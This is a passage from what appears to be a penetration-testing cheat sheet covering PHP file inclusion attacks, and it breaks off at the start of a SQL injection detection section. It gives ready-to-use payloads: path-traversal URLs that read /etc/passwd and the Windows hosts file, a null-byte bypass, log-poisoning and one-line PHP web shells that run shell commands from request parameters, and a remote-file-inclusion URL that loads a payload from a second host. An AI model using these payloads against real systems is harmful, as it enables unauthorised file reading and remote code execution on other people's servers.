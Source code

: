     -   LFI - Download passwords file with filter evasion  
        [*http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd*](about:blank)

    -   Local File Inclusion - In versions of PHP below 5.3 we can
        terminate with null byte  
        GET
        /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

    -   Contaminating Log Files `<?php echo shell_exec($_GET['cmd']);?>`

    -   For a Remote File Inclusion look for php code that is not  sanitized and passed to the PHP include function and the php.ini
        file must be configured to allow remote files
        
        */etc/php5/cgi/php.ini* - "allow_url_fopen" and "allow_url_include" both set to "on"  
        
        `include($_REQUEST["file"].".php");`

    -   Remote File Inclusion  
    
         `http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt `
        
         `<?php echo shell\_exec("ipconfig");?>`

    -  Simple shell to upload and execute commands

	<?php echo system($_REQUEST['cmd']) ?>

    - Drupal Scanner
	
	drupscan 

    - Joomla Scanner

	joomscan

-   Database Vulnerabilities
    ----------------------------------------------------------------------------------------------------------------------

    -   Playing with SQL Syntax
    A great tool I have found for playing with SQL Syntax for a variety of database types (MSSQL Server, MySql, PostGreSql, Oracle) is SQL Fiddle:
    
    http://sqlfiddle.com
    
    Another site is rextester.com:
    
    http://rextester.com/l/mysql_online_compiler
    
    -   Detecting SQL Injection Vulnerabilities. 
    
         Most modern automated scanner tools use time delay techniques to detect SQL injection vulnerabilities.  This method can tell you if a SQL injection vulnerability is present even if it is a "blind" sql injection vulnerabilit that does not provide any data back.  You know your SQL injection is working when the server takes a LOooooong time to respond.  I have added a line comment at the end of each injection statement just in case there is additional SQL code after the injection point.
    
    
        - **MSSQL Server SQL Injection Time Delay Detection:**
        Add a 30 second delay to a MSSQL Server Query
      